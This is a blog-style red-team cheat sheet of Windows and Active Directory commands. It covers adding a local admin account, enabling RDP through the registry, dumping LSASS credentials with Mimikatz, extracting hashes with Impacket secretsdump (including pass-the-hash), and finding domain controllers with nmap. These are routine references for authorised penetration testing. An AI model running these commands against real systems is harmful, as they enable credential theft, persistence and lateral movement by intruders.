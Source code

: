 ```yaml
---
layout: blog
title: Red Team Field Manual
tags: RedTeam, ActiveDirectory
comments: true
date: 2022-12-10
---
```


# Red Team Field Manual
<br />
### Create Local User And Add To Administrators Group
    net user <Username> <Password> /add>
    
    net localgroup Administrators <Username> /add   
  
### List Users In Active Directory

    net users /domain

### Enable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

### Disable RDP From Regedit

    reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
    
### Lsass Dump via Mimikatz

    privilege::debug
    sekurlsa::minidump file.DMP (If there is a DMP file)
    sekurlsa::logonpasswords full
    
### Impacket secretsdump - DUMP Local User Hashes via Domain Creds
 
    python3 secretsdump.py <Domain>/<Domain Username>:<Password>@<IP> #Enter with Domain Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Domain NTLM Hash

    python3 secretsdump.py <Domain>/<Domain Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Creds
    
    python3 secretsdump.py <Computer_Hostname>/<Local Username>:<Password>@<IP> #Enter with Local Creds
    
### Impacket secretsdump - DUMP Local User Hashes via Local User Hash

    python3 secretsdump.py <Computer_Hostname>/<Local Username>@<IP> -hashes <NTLM Hash> #Enter with NTLM Hash

### Find Domain Controller In BlackBox Testing

    nmap -p389,636 --open -iL <IP_List_File>  #389(LDAP) / 636(LDAP-SSL)
    
    
    
    
